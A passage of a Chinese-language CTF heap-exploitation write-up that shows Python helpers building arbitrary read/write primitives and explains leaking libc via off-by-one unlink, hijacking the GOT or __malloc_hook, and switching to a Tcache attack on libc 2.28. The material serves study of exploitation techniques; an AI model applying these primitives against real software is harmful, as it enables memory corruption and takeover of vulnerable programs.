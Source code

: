 可以通过下面两个函数进行任意读写：

```python
    def write_to(self, addr, content):
        self.edit(1, p64(addr) + p64(len(content) + 1))
        self.edit(2, content)

    def read_from(self, addr):
        self.edit(1, p64(addr))
        self.detail()
        desc = [ld["Description"] for ld in self.library_detail if ld["ID"] == "2"]
        assert len(desc) == 1
        return u64(desc[0][:8])
```

### leak_libc

除此之外我们还需要泄露 `libc地址/栈地址`，之后通过写 `got` 表劫持流程或者写 `__malloc_hook` 劫持流程等。

因为 `off-by-one` 漏洞的存在，我们可以利用 `unlink` 方法，因为此时堆区就被放入了`bins` 的双向链表中，这样就可以将 `main_arena.bins` 的地址写入堆区中。

但是我们本地调试环境是 `libc 2.28`，在 `2.26` 之后通过上面描述的这种方式 `unsorted bin attack` 并不可以泄露 `libc` 地址。我们可以使用 `Tcache Attack` 进行攻击。

